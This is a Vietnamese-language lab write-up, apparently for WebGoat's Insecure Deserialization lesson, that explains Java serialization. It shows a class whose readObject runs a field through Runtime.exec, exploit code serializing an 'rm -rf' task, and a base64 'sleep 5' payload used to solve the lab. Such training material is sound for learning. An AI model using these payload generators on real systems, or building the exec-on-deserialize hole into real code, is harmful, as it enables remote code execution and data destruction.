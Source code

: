 # Insecure Deserialization

- [Insecure Deserialization](#insecure-deserialization)
    - [A. Lý thuyết trong bài lab](#a-lý-thuyết-trong-bài-lab)
      - [1. Mục tiêu bài lab](#1-mục-tiêu-bài-lab)
      - [2. Serialization và Deserialization là gì ?](#2-serialization-và-deserialization-là-gì-)
      - [3. Một ví dụ khai thác đơn giản](#3-một-ví-dụ-khai-thác-đơn-giản)
    - [B. Thực hành](#b-thực-hành)

### A. Lý thuyết trong bài lab 

#### 1. Mục tiêu bài lab

Hiểu được Serialization, Deserialization và cách thực hiện khai thác nó, dùng với mục đích khác ban đầu.

#### 2. Serialization và Deserialization là gì ?

Trong quá trình truyền dữ liệu hoặc lưu dữ liệu vào một tệp thì người thường thực hiện dưới dạng dữ liệu là byte, XML, Json,... Vậy để có thể truyền hoặc lưu dữ liệu là một object thì sao ?

Serialization và Deserialization được dùng để xử lý cho vấn đề được đặt ra ở trên.

![](https://i.imgur.com/YpDMm6b.png)

- Serialization là quá trình chuyển đổi trạng thái thông tin của một object thành một hình thức dữ liệu có thể lưu trữ hoặc truyền đi.
- Deserialization là quá trình ngược lại, nó khôi phục dữ liệu thành object ban đầu.

> Lưu ý : Quá trình Serialization chỉ có `data` được serialize còn `code` thì không. Còn quá trình Deserialization thì sẽ tạo ra một object mới copy tất cả các `data` vào object mới đó để có được một object giống với object đã Serialize. 

Nhiều ngôn ngữ cung cấp hỗ trợ riêng cho việc serializing object được gọi là Native Serialization. Với format riêng đó thì sẽ cung cấp nhiều tính năng hơn JSON hoặc XML và có thể tùy chỉnh cho quá trình Serialization. Nhưng cơ chế Deserialization native có thể được sử dụng để gây ảnh hưởng xấu khi hoạt động trên dữ liệu không đáng tin cậy. Từ đó có thể gây ra nhiều cuộc tấn công DDos, access control, remote code execution attacks... 

#### 3. Một ví dụ khai thác đơn giản

Dưới đây là một ví dụ khá nổi tiếng cho Java Deserialization vulnerability

```java
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
```

Đầu tiên đoạn code thực hiện việc `getInputSteam` từ request và chuyển nó thành một `ObjectInputSteam`. Sau đó ép kiểu về `AcmeObject` nhưng ở đây nó sẽ thực hiện phương thức `readObject()` trước khi quá trình ép kiểu hoàn tất. 


```java
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

        private static final long serialVersionUID = 1;

        private String taskName;
        private String taskAction;
        private LocalDateTime requestedExecutionTime;

        public VulnerableTaskHolder(String taskName, String taskAction) {
                super();
                this.taskName = taskName;
                this.taskAction = taskAction;
                this.requestedExecutionTime = LocalDateTime.now();
        }

        private void readObject( ObjectInputStream stream ) throws Exception {
        //deserialize data so taskName and taskAction are available
                stream.defaultReadObject();

                //blindly run some code. #code injection
                Runtime.getRuntime().exec(taskAction);
     }
}
```

Trên đây là lớp chứa phương thức `readObject()` . Ta thấy phương thức này sẽ thực thi code một cách bất chấp không qua một quá trình kiểm tra nào cả bằng câu lệnh `Runtime.getRuntime().exec(taskAction)` . Vậy attacker chỉ việc thực hiện serialize một object với `taskAction` mình mong muốn là có thể tiến hành được một cuộc tấn công `remote code execution`. 

Dưới đây là đoạn code khai thác với taskAction là `rm -rf somefile` :

```java
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();
byte[] exploit = bos.toByteArray();
```


### B. Thực hành

![](https://i.imgur.com/HKZZJOV.png)

Đề yêu cầu ta cố gắng thay đổi serialized object để delay việc phản hồi trang trong chính xác 5 giây

Như ví dụ ở trên thì ta cần tìm `class` phù hợp để biết xem cần làm gì tiếp theo. Dựa vào hint 

![](https://i.imgur.com/OKWWZEb.png)

Chúng ta lên git tìm kiếm và tìm thấy file `java` sau :

```java
package org.dummy.insecure.framework;

import lombok.extern.slf4j.Slf4j;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

@Slf4j
//TODO move back to lesson
public class VulnerableTaskHolder implements Serializable {

	private static final long serialVersionUID = 2;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;
	
	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}
	
	@Override
	public String toString() {
		return "VulnerableTaskHolder [taskName=" + taskName + ", taskAction=" + taskAction + ", requestedExecutionTime="
				+ requestedExecutionTime + "]";
	}

	/**
	 * Execute a task when de-serializing a saved or received object.
	 * @author stupid develop
	 */
	private void readObject( ObjectInputStream stream ) throws Exception {
        //unserialize data so taskName and taskAction are available
		stream.defaultReadObject();
		
		//do something with the data
		log.info("restoring task: {}", taskName);
		log.info("restoring time: {}", requestedExecutionTime);
		
		if (requestedExecutionTime!=null && 
				(requestedExecutionTime.isBefore(LocalDateTime.now().minusMinutes(10))
				|| requestedExecutionTime.isAfter(LocalDateTime.now()))) {
			//do nothing is the time is not within 10 minutes after the object has been created
			log.debug(this.toString());
			throw new IllegalArgumentException("outdated");
		}
		
		//condition is here to prevent you from destroying the goat altogether
		if ((taskAction.startsWith("sleep")||taskAction.startsWith("ping"))
				&& taskAction.length() < 22) {
		log.info("about to execute: {}", taskAction);
		try {
            Process p = Runtime.getRuntime().exec(taskAction);
            BufferedReader in = new BufferedReader(
                                new InputStreamReader(p.getInputStream()));
            String line = null;
            while ((line = in.readLine()) != null) {
                log.info(line);
            }
        } catch (IOException e) {
            log.error("IO Exception", e);
        }
		}
       
    }
	
}
```

Ở đây ta thấy tại phương thức `readObject` thì với `taskAction` bắt đầu bằng từ `sleep` hoặc `ping` và có độ dài dưới 22 thì sẽ cố gắng thực hiện `taskAction` đó bằng lệnh `Runtime.getRuntime().exec(taskAction)`. Vậy nên ta chỉ cần truyền một serialize object với `taskAction = sleep 5` để có thể delay chính xác 5 giây là hoàn thành yêu cầu của đề bài. 

Vậy ta đã xác định được vấn đề, bây giờ ta thực hiện code tạo ra serialize object với `taskAction = sleep 5` như sau 

```java
import java.io.*;
import java.util.*;
import java.time.*;
import org.dummy.insecure.framework.VulnerableTaskHolder;

public class Program {
   public static void main(String args[]) throws Exception{

    VulnerableTaskHolder o = new VulnerableTaskHolder("delayRespone", "sleep 5");
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(o);
    oos.flush();
    byte[] exploit = baos.toByteArray();
    System.out.println(Base64.getEncoder().encodeToString(exploit));
    
   }
}
```

Exploit code này tương tự như ví dụ đã cho ở trên. Chỉ thêm dòng xuất kết quả. Sau khi thực hiện thì ta được kết quả như sau :

![](https://i.imgur.com/W36QpZg.png)

ta chỉ cần copy kết quả bỏ vào phần token rồi bấm submit là hoàn thành 

![](https://i.imgur.com/MmWio4S.png)

